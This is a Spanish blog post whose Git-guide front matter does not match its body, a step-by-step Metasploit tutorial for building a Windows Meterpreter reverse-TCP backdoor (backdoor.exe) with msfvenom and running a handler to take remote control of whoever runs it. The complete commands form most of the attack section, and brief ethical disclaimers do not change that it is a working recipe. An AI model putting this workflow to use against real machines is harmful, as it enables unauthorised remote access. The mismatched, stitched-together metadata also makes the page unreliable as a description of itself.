 ```yaml
---
title: Guía de Git Cómo trabajar en equipo en proyectos
subtitle: Aprende a usar Git para controlar versiones, colaborar con otros desarrolladores y mantener tu código organizado.
shorttitle: "Editar"
description: |
  Accede al [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github/index.pdf) completo aquí. Actualizar enlace
abstract: |
  | Primer parrafo de abstrac
keywords: [keyword1, keyword2]
categories:
  - Operating System
  - GitHub
tags:
  - Git
  - GitHub
  - Colaboración
  - DesarrolloDeSoftware
  - GitBasics
  - GitAdvanced
  - GitTips
  - OpenSource
citation:
  pdf-url: https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github/index.pdf
date: "02/16/2023"
draft: false  # Modo de borrador (false = final, true = borrador)
---
```








# Creando y Ejecutando un Payload Malicioso con Metasploit: Una Guía Paso a Paso

Hola a todos! Hoy vamos a sumergirnos en el fascinante mundo de la seguridad informática y la creación de un payload malicioso usando Metasploit. Si bien esta guía es con fines educativos, es crucial recordar que utilizar estas herramientas para actividades maliciosas es ilegal y antiético. ¡Usémoslas para aprender y proteger!

# Paso 1: Obtener la Dirección IP con ifconfig

Primero, necesitamos conocer nuestra dirección IP local para configurar el payload. Usamos el comando `ifconfig` para obtener esta información. Abre tu terminal y escribe:

```sh
ifconfig
```

Esto mostrará todas las interfaces de red y sus respectivas direcciones IP. Busca la IP de tu red local. En este ejemplo, supongamos que es `192.168.122.152`.

# Paso 2: Crear el Payload con msfvenom

Ahora que tenemos nuestra dirección IP, vamos a crear el payload. Usaremos `msfvenom`, una herramienta que viene con Metasploit para generar payloads maliciosos. Queremos crear un payload que permita un acceso remoto a una máquina con Windows. Usamos el siguiente comando:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.122.152 LPORT=4444 -f exe -o backdoor.exe -a x64
```

Desglosamos el comando:

- `-p windows/x64/meterpreter/reverse_tcp`: Especificamos el payload, que en este caso es un Meterpreter reverse TCP para Windows de 64 bits.
- `LHOST=192.168.122.152`: Establecemos nuestra dirección IP local como el host de escucha.
- `LPORT=4444`: Elegimos el puerto de escucha (puedes cambiarlo si es necesario).
- `-f exe`: Indicamos que el formato de salida debe ser un archivo ejecutable de Windows.
- `-o backdoor.exe`: Nombramos el archivo de salida `backdoor.exe`.
- `-a x64`: Especificamos la arquitectura del payload (64 bits).

# Paso 3: Configurar el Handler en Metasploit

Una vez que tenemos nuestro payload, necesitamos configurar un handler en Metasploit para escuchar las conexiones entrantes. Iniciamos Metasploit con:

```sh
msfconsole -q
```

La opción `-q` es para iniciar Metasploit en modo silencioso.

# Paso 4: Configurar el Exploit Handler

En la consola de Metasploit, seguimos estos pasos:

1. **Seleccionar el handler**:

   ```sh
   msf6 > use exploit/multi/handler
   ```

   Esto indica que usaremos el módulo handler para gestionar la conexión entrante.

2. **Configurar el payload**:

   ```sh
   msf6 > set payload windows/x64/meterpreter/reverse_tcp
   ```

3. **Establecer el LHOST y LPORT**:

   ```sh
   msf6 > set lhost 192.168.122.152
   msf6 > set lport 4444
   ```

4. **Verificar las opciones**:

   ```sh
   msf6 > show options
   ```

   Esto muestra todas las opciones configuradas para asegurar que todo esté correcto.

# Paso 5: Ejecutar el Handler

Finalmente, ejecutamos el handler para empezar a escuchar conexiones:

```sh
msf6 > run
```

Ahora, el handler está activo y esperando que alguien ejecute el `backdoor.exe` en su máquina. Cuando esto suceda, obtendrás una sesión de Meterpreter y podrás interactuar con la máquina comprometida.

# Conclusión

Este proceso demuestra cómo se puede crear y manejar un payload malicioso usando Metasploit. Nuevamente, subrayo la importancia de utilizar este conocimiento de manera ética y legal, principalmente para probar y fortalecer la seguridad de sistemas. Siempre asegúrate de tener permiso para realizar estas pruebas.

Espero que hayas encontrado esta guía informativa y útil. ¡Hasta la próxima!







# Publicaciones Similares

Si te interesó este artículo, te recomendamos que explores otros blogs y recursos relacionados que pueden ampliar tus conocimientos. Aquí te dejo algunas sugerencias:


1. [Usando Apk En Windown 11](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2021-10-21-usando-apk-en-windown-11) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2021-10-21-usando-apk-en-windown-11/index.pdf)
2. [Comandos Vim](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2022-09-27-comandos-vim) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2022-09-27-comandos-vim/index.pdf)
3. [Guia De Git Y Github](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github/index.pdf)
4. [00 Primeros Pasos En Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-05-02-00-primeros-pasos-en-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-05-02-00-primeros-pasos-en-linux/index.pdf)
5. [01 Introduccion Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-17-01-introduccion-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-17-01-introduccion-linux/index.pdf)
6. [02 Distribuciones Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-18-02-distribuciones-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-18-02-distribuciones-linux/index.pdf)
7. [03 Instalacion Linux](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-19-03-instalacion-linux) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-19-03-instalacion-linux/index.pdf)
8. [04 Administracion Particiones Volumenes](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-20-04-administracion-particiones-volumenes) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-06-20-04-administracion-particiones-volumenes/index.pdf)
9. [Atajos De Teclado Y Comandos Para Usar Vim](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-07-01-atajos-de-teclado-y-comandos-para-usar-vim) Lee sin conexión [PDF](https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-07-01-atajos-de-teclado-y-comandos-para-usar-vim/index.pdf)


Esperamos que encuentres estas publicaciones igualmente interesantes y útiles. ¡Disfruta de la lectura!

